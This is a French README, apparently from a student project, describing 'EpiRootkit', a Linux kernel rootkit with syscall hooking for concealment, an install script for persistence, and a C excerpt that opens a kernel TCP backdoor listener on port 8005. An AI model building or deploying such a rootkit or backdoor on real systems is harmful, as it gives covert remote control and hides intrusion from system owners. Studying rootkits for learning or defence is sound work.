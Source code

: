 # EpiRootkit - Machine Victime et Module Kernel

## Architecture du rootkit

EpiRootkit est un module kernel Linux developpe en langage C qui fonctionne entierement en espace noyau. Le rootkit implemente une architecture modulaire ou chaque composant gere des fonctionnalites specifiques tout en interagissant avec les autres.

### Structure modulaire et interactions

```
epirootkit/
├── main.c              # Serveur TCP kernel et orchestration generale
├── auth.c              # Cryptographie SHA-256 et verification mot de passe  
├── cache.c             # Gestion memoire kernel et structures de donnees
├── commandes.c         # Interface userspace et execution processus
├── dissimulation.c     # Hooks syscall et manipulation table appels systeme
├── notification.c      # Client HTTP kernel et communication reseau
├── epirootkit.h        # Definitions globales et constantes partagees
├── Makefile           # Build system et gestion dependances
├── encodage.sh         # script qui chffre et verouille les dossiers avec un mot de passe
└── install.sh         # Deploiement automatise et persistance systeme

```

### Architecture reseau kernel

Le rootkit implemente un serveur TCP complet directement dans l'espace kernel, utilisant l'API socket native du noyau Linux :

```c
// Initialisation du serveur dans main.c
static int __init epirootkit_init(void)
{
    // Creation socket kernel avec protocole TCP
    err = sock_create(AF_INET, SOCK_STREAM, IPPROTO_TCP, &sockfd);
    
    // Configuration adresse serveur sur toutes interfaces
    serveur_adresse.sin_family = AF_INET;
    serveur_adresse.sin_port = htons(PORT_CONTROLE);
    serveur_adresse.sin_addr.s_addr = INADDR_ANY;
    
    // Binding et ecoute sur port 8005
    err = kernel_bind(sockfd, (struct sockaddr *)&serveur_adresse, sizeof(serveur_adresse));
    err = kernel_listen(sockfd, 5);
    
    // Lancement thread kernel dedie pour gerer les connexions
    tache_serveur = kthread_run(creer_serveur, NULL, "kserveur");
}
```
